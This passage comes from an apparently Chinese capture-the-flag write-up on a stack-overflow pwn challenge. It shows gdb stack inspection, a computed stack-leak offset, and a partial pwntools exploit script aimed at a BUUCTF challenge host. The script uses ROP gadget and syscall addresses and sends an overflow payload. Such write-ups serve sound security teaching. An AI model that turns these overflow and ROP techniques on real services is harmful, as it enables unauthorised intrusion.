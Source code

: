 看一下现在栈上写入'aaaaaaaa'的地址

```plain
x/8gx 0x7fffffffdea0
```

[![](assets/1701612132-5b6316a0576c999958432aeca726c40b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001523-44a4b7d2-3d19-1.png)

这里显然就是栈上的位置了，所以我们这样其实就泄露了栈地址

```plain
0x7fffffffdfb8-0x7fffffffdea0=0x118
```

我们现在已经知道了偏移量了，现在就是不知道这个地址到写入 binsh 的电地址的距离，可以利用 vuln() 中的 write 打印出来。

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",27757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

vuln=elf.symbols['vuln']
leak('vuln',vuln)

gadget=0x00000000004004DA
syscall_ret=0x0000000000400517

pl='a'*0x10+p64(vuln)
s(pl)
```